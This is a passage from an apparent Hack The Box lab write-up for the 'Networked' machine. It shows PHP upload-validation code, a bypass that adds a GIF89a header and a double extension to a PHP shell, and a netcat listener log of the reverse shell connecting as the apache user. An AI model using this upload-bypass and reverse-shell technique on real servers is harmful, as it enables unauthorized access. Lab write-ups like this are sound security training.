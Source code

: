```
}

function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}

function displayform() {
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post" enctype="multipart/form-data">
 <input type="file" name="myFile">
 <br>
<input type="submit" name="submit" value="go!">
</form>
<?php
  exit();
}


?>

```



I googled a couple of ways to get around this. And found this link: https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass

So I added GIF89a; on top of my php shell. And it worked! It got uploaded. I went to /photos.php to get the name, and then /uploads/10_10_14_20.jpg

But I get the error: `The image “http://10.129.112.184/uploads/10_10_14_20.jpg” cannot be displayed because it contains errors.` But no php connection.

from the link I read:

```
it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.


I'm not sure why some tutorials have the php extension first while others have it second. Try both.
```

So I save the file as shell.php.jpg and try again.

When I visit /photos.php I get the shell:

```
root@kali:/home/kali/htb/Networked# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.112.184 39312
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 15:07:09 up  2:23,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$     
```
